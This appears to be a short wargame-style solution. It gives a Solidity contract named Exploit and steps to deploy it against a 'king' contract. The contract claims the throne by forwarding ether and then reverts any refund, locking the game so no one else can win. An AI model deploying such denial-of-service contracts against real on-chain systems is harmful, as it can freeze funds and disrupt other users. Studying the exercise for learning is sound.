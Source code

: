 Change the value of the king address below to your contract instance

Deploy the contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Exploit {

    address payable king = 0xF42E0ffEb806608d24c28702dc5e19FDaA6C0875;
    receive() external payable{
        if (msg.sender == king){
            revert();
        }
        king.call{value:msg.value}("");
    }

}
```

send it enough eth to beat the current prize
